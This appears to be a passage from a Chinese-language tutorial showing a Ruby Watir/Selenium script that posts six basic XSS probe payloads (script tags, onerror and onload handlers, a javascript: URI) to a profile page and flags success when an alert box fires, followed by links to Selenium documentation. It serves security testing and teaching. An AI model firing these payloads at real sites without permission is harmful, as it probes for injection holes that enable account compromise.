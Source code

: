 ```
payloads =
  [
    "\"><video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"

@browser.send_keys(:control, 't')                               # Sent Ctrl+T to open new tab
@browser.goto "http://example.com/pub_prof/user/silver.aspx"    # Goto the use's public profile
@browser.switch                                                 # Make sure to focus on current tab/window

payloads.each do |payload|

  @browser.send_keys(:alt, '1')                                     # Send Alt+1 to go to first tab
  sendpost payload
  puts "[*] Sending to '#{@browser.title}' Payload : #{payload}"
  @browser.send_keys(:alt, '2')                                     # Send Alt+2 to go to second tab
  @browser.switch
  @browser.refresh
  puts "[*] Checking Payload Result on #{@browser.title}"

  if @browser.alert.exists?
    @browser.alert.ok
    puts
    puts "[+] Exploit found!: " + payload
    @browser.close
    exit 0
  end

end

@browser.close
puts 
```

* * *

+   [Selenium 官方文档](http://docs.seleniumhq.org/docs/)

+   [Selenium Cheat Sheet](https://gist.github.com/kenrett/7553278)

+   [Selenium webdriver 与 Ruby 中的 Watir-webdriver](http://watirmelon.com/2011/05/05/selenium-webdriver-vs-watir-webdriver-in-ruby/)

+   [在 Ruby 中编写自动化测试脚本](https://www.browserstack.com/automate/ruby)
